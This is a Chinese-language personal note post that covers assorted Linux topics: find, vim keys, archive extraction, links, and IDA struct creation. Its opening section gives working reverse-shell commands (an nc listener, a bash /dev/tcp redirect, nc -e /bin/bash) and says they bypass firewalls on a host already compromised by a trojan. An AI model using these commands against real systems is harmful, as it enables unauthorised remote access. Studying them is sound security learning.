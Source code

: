 ```yaml
---
layout: post
title: 一些Linux下的杂乱知识点
category: system
date: 2023-8-21
---
```

主要是未分类的知识点。
<!-- more -->
[toc]


# 反弹shell

若要从主机`A`接收一个反弹的`shell`，首先在主机上监听某个端口：

```bash
nc -l 8080
```

通过在主机`B`上执行如下命令，即可使得主机`B`主动发起一个连接到主机`A`。

```bash
bash -i >& /dev/tcp/主机A的IP/主机A监听的端口 0>&1
# 或者nc -e /bin/bash 计算机A的IP 计算机A监听的端口
# 但某些版本的nc不支持-e参数
```

“反弹”`shell`的意思就是，这个`shell`是由主机`B`主动发起连接让主机`A`使用主机`B`的`shell`的，因此不会被防火墙等阻拦。若我们能通过木马等方式控制某台主机并执行一次命令，那么我们即可反弹一个`shell`。

# Linux查找文件

```bash
find /etc -name "php.ini"
```

# VIM操作

回到顶部

```bash
gg
```

删除当前以下所有

```bash
dG
```

查找内容

```bash
/ # 唤起查找，输入完成后回车
n # 前向查找
N # 反向查找
```

# vmware共享文件夹

我现在设置到了主机桌面的`vmware_share`

在`ubuntu`下是在`/mnt/hgfs/vmware_share`

# ubuntu解压缩

```bash
tar –xvf file.tar //解压 tar包

tar -xzvf file.tar.gz //解压tar.gz

tar -xjvf file.tar.bz2   //解压 tar.bz2

tar –xZvf file.tar.Z   //解压tar.Z

unrar e file.rar //解压rar

unzip file.zip //解压zip

总结：

  (1)、*.tar 用 tar –xvf 解压
  (2)、*.gz 用 gzip -d或者gunzip 解压
  (3)、*.tar.gz和*.tgz 用 tar –xzf 解压
  (4)、*.bz2 用 bzip2 -d或者用bunzip2 解压
  (5)、*.tar.bz2用tar –xjf 解压
  (6)、*.Z 用 uncompress 解压
  (7)、*.tar.Z 用tar –xZf 解压
  (8)、*.rar 用 unrar e解压
  (9)、*.zip 用 unzip 解压
```

# 软链接和硬链接

## 软链接

- 可以理解为一个“快捷方式”。
- 原始文件被删除后，软链接将“悬空”，指向不存在的文件。
- 软链接可以链接到目录。
- 软链接不会存储文件内容，而是仅存储原文件的路径。

## 硬链接

- 可以理解为同一个文件的不同名称。
- 原始文件被删除后，硬链接仍然可以访问该文件（你可以把硬链接和原始文件名同等地当作文件的两个名称）。
- 不能链接到目录

```bash
# 创建硬链接
ln source_file hard_link
# 创建软链接
ln -s source_file soft _link
```

# ida创建结构体

在逆向尤其是二进制程序分析时，我们常常会遇到一些结构体，结构体里面还会嵌套一些结构体。有的师傅喜欢人肉反编译，但是这里还是记录一下`ida`如何进行结构体的创建。这里分为两种，一种是`ida`自带的结构体创建和编写C语言代码创建。

**无论使用哪种方式创建了结构体，只需要在`ida`反编译的代码中选中结构体指针变量并右键，点击`conver to struct*`然后选中自己创建的结构体即可让ida应用这种结构体方式。**

## ida自带结构体创建

使用`shift+f9`打开结构体菜单，如图所示：![](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131305716.png)

此时按下键盘上的`insert`键，输入要创建的结构体名称，如图所示：

![image-20231113130817035](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131308083.png)

就可以完成空结构体的创建，如图所示：

![image-20231113130844706](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131308741.png)

现在我们将光标移动到`ends`的一行，按下键盘上的`d`键，即可添加一个结构体的成员变量：

![image-20231113130945752](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131309786.png)

鼠标移动到默认创建的名称`field_0`上按下键盘上的`n`键可以更改名称，而再次按下键盘上的`d`键可以更改变量的数据类型，如图所示就创建好了一个带有一个8字节大小的叫做`name`的成员变量的结构体：

![image-20231113131104436](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131311471.png)

## 编写C语言代码创建结构体

假如你觉得上面的方法过于复杂，或者结构体成员变量较多，那么你可以采取直接编写C语言代码的方式来创建结构体。在`ida`中按下`shift+f1`，如图所示：

![image-20231113131420860](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131314895.png)

我们按下键盘上的`insert`键，即可弹出输入结构体的C语言代码的输入框：

![image-20231113131532298](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131315342.png)

输入完成后按下`ok`即可完成结构体的创建。无论使用了哪种方式创建结构体，都可以在结构体指针上使用`convert to strcu*`来应用结构体。

## 效果演示

如图所示，应用结构体后即可使用结构体的方式在反编译后的代码中显示。

![image-20231113131752853](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131317899.png)
